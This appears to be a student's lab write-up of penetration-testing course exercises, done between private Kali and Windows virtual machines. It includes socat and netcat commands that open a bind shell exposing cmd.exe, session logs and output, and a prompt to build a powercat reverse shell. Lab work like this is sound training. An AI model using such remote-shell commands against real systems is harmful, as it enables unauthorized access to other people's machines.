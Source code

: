 Connect from Kali using an insecure connection (using TCP4-CONNECT):
```
socat - TCP4-CONNECT:10.0.2.4:4444
```

Even though the connection is accepted on the Windows machine, the shell is not accessible from Kali.

Socat's logs on Windows:
```
2020/11/04 14:01:27 socat[5564] N accepting connection from AF=2 10.0.2.15:42078 on AF=2 10.0.2.4:4444
2020/11/04 14:01:27 socat[5564] N forked off child process 1584
2020/11/04 14:01:27 socat[5564] N listening on AF=2 0.0.0.0:4444
2020/11/04 14:02:15 socat[1584] E SSL_accept(): socket closed by peer
2020/11/04 14:02:15 socat[1584] N exit(1)
2020/11/04 14:02:15 socat[5564] W waitpid(): child 1584 exited with status 1
```

On Kali (shell is not working):
```
$ socat - TCP4-CONNECT:10.0.2.4:4444
whoami
dir
```

4. Make an unencrypted socat bind shell on your Windows system. Connect to the shell using Netcat. Does it work?
Note: If cmd.exe is not executing, research what other parameters you may need to pass to the EXEC option based on the error you receive.

Bind shell from Windows:
```
socat.exe -d -d TCP4-LISTEN:4445,fork EXEC:cmd.exe,pipes
```

Connect from Kali using Netcat:
```
nc 10.0.2.4 4445
Microsoft Windows [Version 10.0.19041.572]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\Users\User>whoami
whoami
windev2009eval\user
```

This proves it is possible to bind a shell using socat (using TCP4) and then connect to it using netcat.

### 4.3.8.1 (page 94)
Boxes IPs:
kali: 10.0.2.15
win: 10.0.2.4

1. Use PowerShell and powercat to create a reverse shell from your Windows system to your Kali machine.
